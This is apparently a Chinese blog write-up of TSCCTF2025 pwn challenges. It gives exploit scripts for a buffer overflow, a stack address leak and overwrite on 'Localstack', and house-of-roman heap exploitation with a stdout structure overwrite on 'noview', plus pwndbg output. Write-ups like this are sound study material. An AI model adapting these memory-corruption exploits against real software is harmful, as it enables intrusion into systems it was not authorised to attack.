 # Tscctf2025


# TSCCTF2025

## gamble_bad_bad

```python
rv = b&#39;\xa1\x8d\xef\xbc\x9a&#39;

payload = b&#39;a&#39; * 0x14 &#43; b&#39;\x37\x37\x37\x00&#39;
pause()
sla(rv, payload)
```

## Localstack

```python
menu = b&#39;&gt;&gt; &#39;

def push(value):
    sla(menu, f&#39;push {str(value)}&#39;.encode())
    print(f&#39;push {(str(value))}&#39;)


def pop():
    sla(menu, b&#39;pop&#39;)


def show():
    sla(menu, b&#39;show&#39;)


def ex1t():
    sla(menu, b&#39;exit&#39;)


rv_list = []
rv = 0

for i in range(9):
    pop()
    ru(b&#39;Popped &#39;)
    rv = int(ru(b&#39; &#39;)[:-1])
    print(hex(rv))
    if rv &gt;= 0:
        rv_list.append(rv)
    else:
        rv_list.append((rv &#43; 0xffffffffffffffff &#43; 1) &amp; 0xffffffffffffffff)

show()
libc_base = rv - 0x7f410
lg(&#34;libc_base&#34;)
for i in range(1, len(rv_list))[::-1]:
    print(i)
    # print(hex(rv_list[i]))
    push(rv_list[i])

push(29)
push(30)

push(libc_base)

ia()
```

pop泄露地址，push写地址，国外比赛是不是都喜欢出覆盖计数指针的题，上次才见过一个只能一个字节一个字节写的题也是打计数指针，算一下rsp到rbp的偏移就行

这样可以写返回地址了，然后看了眼有后门函数，那就不用泄露libc了，泄露出pie_base然后写print_flag&#43;pie_base即可

















## noview

有uaf，没有show函数，肯定是打roman，为了方便，我patch了2.23的，复习一下

house of roman的关键还是在于这个既在fastbin里，又在unsortedbin里的bin

在有uaf或者off by one的情况下都可以使用下面这种方法：

```python
add(0, 0x60, )  # 000
edit(0, p64(0) &#43; p64(0x71))
add(1, 0x60)        # 070
edit(1, b&#39;ffff&#39;)
add(2, 0x60)  # 0f0
edit(2, p64(0) * 3 &#43; p64(0x51))
delete(0)
delete(1)  # delete 070
edit(1, p8(0x10))
add(3, 0x60)  # add 070
edit(3, b&#39;gggg&#39;)
add(4, 0x60)  # add 010
edit(4, p64(0) * 0xb &#43; p64(0x71))
delete(3)
edit(4, p64(0) * 0xb &#43; p64(0x91))
delete(3)
```

关键就在于使用off-by-one或者uaf，将fastbin的大小换成unsortedbin的，然后重新free一次

![image-20250125184607790](.\images\image-20250125184607790.png)

找到可以作为size的地址`0x7efd01c1b73d`，然后将其低两位写入一个unsortedbin中的main_arena&#43;96指针中

```gdb
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x56206343b2b0
Size: 0x810 (with flag bits: 0x811)
fd: 0x7f910fe1b73d
bk: 0x7f910fe1ace0

Allocated chunk
Addr: 0x56206343bac0
Size: 0x20 (with flag bits: 0x20)

Top chunk | PREV_INUSE
Addr: 0x56206343bae0
Size: 0x20520 (with flag bits: 0x20521)

pwndbg&gt; tele 0x56206343b2b0
00:0000│  0x56206343b2b0 ◂— 0x0
01:0008│  0x56206343b2b8 ◂— 0x811
02:0010│  0x56206343b2c0 —▸ 0x7f910fe1b73d (_IO_2_1_stderr_&#43;157) ◂— 0x910fe1a8a0000000
03:0018│  0x56206343b2c8 —▸ 0x7f910fe1ace0 (main_arena&#43;96) —▸ 0x56206343bae0 ◂— 0x0
04:0020│  0x56206343b2d0 ◂— 0x0
... ↓     3 skipped
```

分配两次，第二次分配就可以覆盖`_IO_2_1_stdout_`的`_IO_write_base`低位为`\x00`


---

> 作者:   
> URL: https://example.org/posts/814a8c6/  


